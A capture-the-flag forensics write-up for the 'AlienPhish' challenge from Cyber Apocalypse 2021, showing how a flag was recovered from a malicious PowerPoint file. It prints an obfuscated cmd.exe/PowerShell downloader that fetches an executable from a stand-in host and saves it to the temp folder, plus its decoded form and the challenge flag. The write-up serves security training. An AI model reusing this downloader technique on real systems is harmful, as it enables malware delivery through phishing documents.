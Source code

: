 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2021 | AlienPhish Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2021
parent: cyber_apocalypse_2021
category: forensics
challenge: AlienPhish
tags: "forensics, starry, macros"
date: 2021-04-24T00:00:00+00:00
last_modified_at: 2021-04-24T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2021</h1>

## AlienPhish

> Solved by : Starry-Lord

* Unzip and find 'Alien Weaknesses.pptx'
* Unzip again and go to ppt/slides/_rels/
* Read slide1.xml.rels to find a suspicious relation tag

```
    cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22
```

* Go to cyberchef 
* From url decode 
* Reverse 

```
    "%=!XCk*:XCk% llac 0 qel X% fi;pma&;pma&!1,X%~:My!!XCk!=XCk tes od)0;1-;221( ni X% L/ rof;pma&;pma&powershell -c "$o = $env:temp   'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe'; iwr http:/destroyearth.alien/x.exe -outfile $o"=My tes"C/NO:V/ exe.dmc
```

```
    Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99
```

* From base64 and select the urlSafe alphabet

```
CHTB{pH1sHiNg_w0_m4cr0s???}
```

